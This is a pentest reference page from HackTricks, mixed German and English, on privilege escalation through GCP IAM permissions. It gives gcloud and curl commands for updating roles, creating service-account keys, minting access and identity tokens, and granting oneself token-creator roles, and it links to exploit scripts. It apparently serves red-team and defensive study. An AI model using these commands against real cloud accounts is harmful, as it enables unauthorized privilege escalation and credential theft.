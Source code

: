 # GCP - IAM Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## IAM

Finde mehr Informationen über IAM in:

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### `iam.roles.update` (`iam.roles.get`)

Ein Angreifer mit den genannten Berechtigungen wird in der Lage sein, eine dir zugewiesene Rolle zu aktualisieren und dir zusätzliche Berechtigungen für andere Ressourcen zu geben, wie:
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
Sie können ein Skript zur Automatisierung der **Erstellung, Ausnutzung und Bereinigung einer verwundbaren Umgebung hier** finden und ein Python-Skript, um dieses Privileg [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py) auszunutzen. Für weitere Informationen siehe die [**ursprüngliche Forschung**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

Ein Angreifer mit den genannten Berechtigungen wird in der Lage sein, **ein Zugriffstoken anzufordern, das zu einem Dienstkonto gehört**, sodass es möglich ist, ein Zugriffstoken eines Dienstkontos mit mehr Berechtigungen als unserem anzufordern.
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
Sie finden ein Skript zur Automatisierung der [**Erstellung, Ausnutzung und Bereinigung einer verwundbaren Umgebung hier**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh) und ein Python-Skript, um dieses Privileg auszunutzen [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py). Für weitere Informationen überprüfen Sie die [**ursprüngliche Forschung**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccountKeys.create`

Ein Angreifer mit den genannten Berechtigungen wird in der Lage sein, **einen benutzerverwalteten Schlüssel für ein Dienstkonto zu erstellen**, was uns den Zugriff auf GCP als dieses Dienstkonto ermöglicht.
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
Sie können ein Skript zur Automatisierung der [**Erstellung, Ausnutzung und Bereinigung einer verwundbaren Umgebung hier**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh) und ein Python-Skript zur Ausnutzung dieses Privilegs [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py) finden. Für weitere Informationen siehe die [**ursprüngliche Forschung**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

Beachten Sie, dass **`iam.serviceAccountKeys.update` nicht funktioniert, um den Schlüssel** eines SA zu ändern, da dafür auch die Berechtigung `iam.serviceAccountKeys.create` erforderlich ist.

### `iam.serviceAccounts.implicitDelegation`

Wenn Sie die **`iam.serviceAccounts.implicitDelegation`** Berechtigung für ein Service-Konto haben, das die **`iam.serviceAccounts.getAccessToken`** Berechtigung für ein drittes Service-Konto hat, können Sie implicitDelegation verwenden, um **ein Token für dieses dritte Service-Konto zu erstellen**. Hier ist ein Diagramm zur Erklärung.

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

Beachten Sie, dass laut der [**Dokumentation**](https://cloud.google.com/iam/docs/understanding-service-accounts) die Delegation von `gcloud` nur funktioniert, um ein Token mit der [**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken) Methode zu generieren. Hier ist, wie Sie ein Token direkt über die API erhalten:
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
You can find a script to automate the [**Erstellung, Ausnutzung und Bereinigung einer verwundbaren Umgebung hier**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh) and a python script to abuse this privilege [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py). For more information check the [**ursprüngliche Forschung**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signBlob`

An attacker with the mentioned permissions will be able to **beliebige Payloads in GCP signieren**. So it'll be possible to **ein unsigniertes JWT des SA zu erstellen und es dann als Blob zu senden, um das JWT vom SA, das wir anvisieren, signieren zu lassen**. For more information [**lesen Sie dies**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed).

You can find a script to automate the [**Erstellung, Ausnutzung und Bereinigung einer verwundbaren Umgebung hier**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh) and a python script to abuse this privilege [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py) and [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py). For more information check the [**ursprüngliche Forschung**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signJwt`

An attacker with the mentioned permissions will be able to **wohlgeformte JSON-Web-Token (JWTs) signieren**. The difference with the previous method is that **anstatt Google einen Blob zu signieren, der ein JWT enthält, verwenden wir die signJWT-Methode, die bereits ein JWT erwartet**. This makes it easier to use but you can only sign JWT instead of any bytes.

You can find a script to automate the [**Erstellung, Ausnutzung und Bereinigung einer verwundbaren Umgebung hier**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh) and a python script to abuse this privilege [**hier**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py). For more information check the [**ursprüngliche Forschung**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

An attacker with the mentioned permissions will be able to **IAM-Richtlinien zu Dienstkonten hinzuzufügen**. You can abuse it to **sich selbst die Berechtigungen zu gewähren**, die Sie benötigen, um das Dienstkonto zu impersonieren. In the following example we are granting ourselves the `roles/iam.serviceAccountTokenCreator` role over the interesting SA:
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
You can find a script to automate the [**Erstellung, Ausnutzung und Bereinigung einer verwundbaren Umgebung hier**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**.**

### `iam.serviceAccounts.actAs`

Die **iam.serviceAccounts.actAs-Berechtigung** ist wie die **iam:PassRole-Berechtigung von AWS**. Sie ist entscheidend für die Ausführung von Aufgaben, wie das Starten einer Compute Engine-Instanz, da sie die Fähigkeit gewährt, "als" ein Dienstkonto zu agieren, was eine sichere Berechtigungsverwaltung gewährleistet. Ohne dies könnten Benutzer unrechtmäßigen Zugriff erhalten. Darüber hinaus umfasst die Ausnutzung der **iam.serviceAccounts.actAs** verschiedene Methoden, von denen jede eine Reihe von Berechtigungen erfordert, im Gegensatz zu anderen Methoden, die nur eine benötigen.

#### Dienstkonto-Impersonation <a href="#service-account-impersonation" id="service-account-impersonation"></a>

Die Impersonation eines Dienstkontos kann sehr nützlich sein, um **neue und bessere Berechtigungen zu erhalten**. Es gibt drei Möglichkeiten, wie Sie [ein anderes Dienstkonto impersonieren können](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating\_a\_service\_account):

* Authentifizierung **mit RSA-Privatschlüsseln** (oben behandelt)
* Autorisierung **mit Cloud IAM-Richtlinien** (hier behandelt)
* **Bereitstellung von Jobs auf GCP-Diensten** (mehr anwendbar auf den Kompromiss eines Benutzerkontos)

### `iam.serviceAccounts.getOpenIdToken`

Ein Angreifer mit den genannten Berechtigungen wird in der Lage sein, ein OpenID JWT zu generieren. Diese werden verwendet, um die Identität zu bestätigen und tragen nicht unbedingt eine implizite Autorisierung gegenüber einer Ressource.

Laut diesem [**interessanten Beitrag**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b) ist es notwendig, das Publikum (Dienst, bei dem Sie das Token zur Authentifizierung verwenden möchten) anzugeben, und Sie erhalten ein von Google signiertes JWT, das das Dienstkonto und das Publikum des JWT angibt.

Sie können ein OpenIDToken generieren (wenn Sie den Zugriff haben) mit:
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
Dann können Sie es einfach verwenden, um auf den Dienst zuzugreifen mit:
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
Einige Dienste, die die Authentifizierung über diese Art von Tokens unterstützen, sind:

* [Google Cloud Run](https://cloud.google.com/run/)
* [Google Cloud Functions](https://cloud.google.com/functions/docs/)
* [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
* [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (wenn Google OIDC verwendet wird)

Sie finden ein Beispiel, wie man ein OpenID-Token im Namen eines Dienstkontos erstellt [**hier**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py).

## Referenzen

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks unterstützen</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
